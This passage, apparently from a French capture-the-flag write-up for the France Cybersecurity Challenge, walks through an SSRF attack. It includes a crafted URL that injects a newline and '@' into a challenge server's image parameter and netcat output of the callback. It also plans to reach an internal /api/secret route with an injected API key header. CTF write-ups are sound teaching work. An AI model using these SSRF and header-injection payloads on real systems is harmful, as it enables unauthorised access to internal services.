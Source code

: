 ![ssrf](assets/ssrf.png)

On peut donc bypasser le début de la requete [HTTP](https://fr.wikipedia.org/wiki/Hypertext_Transfer_Protocol) pour taper sur celle qu'on veut.
Essayons donc avec un serveur que nous maîtrisons en requêtant via l'URL :

```
http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=%0A%26%40ecuri.es:1234
```

Résultat dans netcat :

```shell
root@ecurie:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from (UNKNOWN) [152.228.210.13] 47886
GET / HTTP/1.1
Host: ecuri.es:1234
Accept-Encoding: identity
```

BINGO. On sait donc requêter sur une autre URL.

Le seul souci, c'est qu'on ne connait pas le numéro de port utilisé dans la variable d'environnement `FLASK_LOCAL_PORT`.

Dans la culture geek, le port communément utilisé pour diverses choses, du lol, des tests, autres, c'est le port `1337`.

Si maintenant on requête sur l'URL de la machine en lui disant :
- Connecte toi à 127.0.0.1:1337
- Tape sur la route /api/secret
- Injecte moi le [header HTTP](https://en.wikipedia.org/wiki/List_of_HTTP_header_fields) `X-API-KEY` avec la valeur `b99cc420eb25205168e83190bae48a12`
